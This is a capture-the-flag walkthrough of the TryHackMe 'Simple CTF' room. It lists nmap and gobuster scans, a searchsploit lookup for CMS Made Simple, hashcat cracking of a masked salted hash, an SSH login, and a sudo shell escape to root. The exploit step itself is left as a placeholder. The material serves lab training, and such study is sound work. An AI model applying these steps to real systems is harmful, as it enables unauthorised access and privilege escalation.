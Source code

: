 # SimpleCTF Room

[Link to room](https://tryhackme.com/room/easyctf)

## Scanning
Run an nmap scan on the IP address from your portal. Replace the IP below with your THM victim machine.

 ```
 sudo nmap -sC -sV -O 10.10.x.x -vv 
```

## Enumeration
Run GoBuster on the web server to determine the directories that are available. 

```
 gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 40
```

You will not know what CVE to look for until you get to the webpage that is found in the GoBuster scan.

Once there, look at the bottom left corner of the webpage for Name of application and version number/

Next you will search for the CVE using Google. 

Then you will search for the exploit using the following.
```
  searchsploit CMS Made Simple
```
Once you have identified the CVE, download the updated python script as shown below.

```
Something
```
```
  hashcat -m 20 0c01f4468bxxxxxxxxxxx73846e8d96:1dac0d92e9fa6bb2 /usr/share/wordlists/rockyou.txt
```

```
  ssh mitch@10.10.x.x -p 2222
```
Then open the user.txt file by entering the following
```
  cat user.txt
```

## Escalation

Now we need to get access to a privileged shell. To check what is running as root, enter the following.
```
  sudo -l
```

Now we can check out what options are available for this by going to GTFO Bins on GitHub and looking for our service. Make sure you select SUDO from the options.

We now have a code snippet to enter into our shell.
```
  sudo xxx -c ':!/bin/sh'
```

Now we have to find the root flag. I guessed the name here and found it was right. 

```
  locate root.txt
```
I then open file at the location provided like below

```
  cat /path/to/root.txt
```

Thats it! If you followed along, you have completed the challenge. 

Happy hacking - gray_area


